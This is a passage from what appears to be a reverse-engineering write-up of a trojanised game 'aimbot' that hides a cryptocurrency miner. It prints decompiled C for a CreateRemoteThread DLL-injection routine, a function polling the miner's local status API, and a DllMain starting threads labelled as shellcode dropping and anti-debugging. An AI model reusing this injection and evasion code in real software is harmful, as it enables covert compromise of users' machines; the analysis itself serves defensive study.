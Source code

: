 ```c
  return buf;
}
```

Then we have the DLL injection using `CreateRemoteThread`:
```c
_BOOL8 __fastcall u_create_remote_thread_for_dll(HANDLE hProcess, char *Str) {
  /* ... */
  v4 = strlen(Str);
  v5 = VirtualAllocEx(hProcess, 0i64, v4, 0x3000u, 0x40u);
  if ( v5
    && (v6 = strlen(Str), WriteProcessMemory(hProcess, v5, Str, v6, 0i64))
    && (ModuleHandleA = GetModuleHandleA("kernel32.dll"),
        (ProcAddress = (DWORD (__stdcall *)(LPVOID))GetProcAddress(ModuleHandleA, "LoadLibraryA")) != 0i64) ) {
    return CreateRemoteThread(hProcess, 0i64, 0i64, ProcAddress, v5, 0, 0i64) != 0i64;
  } else {
    return 0i64;
  }
}
```

Finally we have the health check on `miner.exe`:
```c
void *u_connect_to_bananabot() {
  /* ... */
  v0 = malloc(0x4000ui64);
  v1 = InternetOpenA("bananabot 5000", 1u, 0i64, 0i64, 0);
  v2 = v1;
  if ( !v1 )
    return 0i64;
  v3 = InternetOpenUrlA(v1, "http://127.0.0.1:57328/2/summary", 0i64, 0, 0x80000000, 0i64);
  if ( v3 ) {
    while ( InternetReadFile(v3, v0, 0x4000u, dwNumberOfBytesRead) && dwNumberOfBytesRead[0] )
      ;
    InternetCloseHandle(v3);
    InternetCloseHandle(v2);
  } else {
    v0 = 0i64;
    InternetCloseHandle(v2);
  }

  return v0;
}
```

The [aimbot_resource_decryptor.py](./aimbot_resource_decryptor.py) script decrypts all resources.

#### Reversing the DLL

The `aimbot.dll` creates **3** threads, however only one is interested to us:
```c
BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
  if ( fdwReason == 1 ) {
    DisableThreadLibraryCalls(hinstDLL);
    CreateThread(0i64, 0i64, (LPTHREAD_START_ROUTINE)u_thread_routine_A, hinstDLL, 0, 0i64);
    CreateThread(0i64, 0i64, u_thread_routine_B_drop_shellcode, 0i64, 0, 0i64);
    CreateThread(0i64, 0i64, u_thread_routine_C_ANTIDEBUG, 0i64, 0, 0i64);
  }
  return 1;
}
```
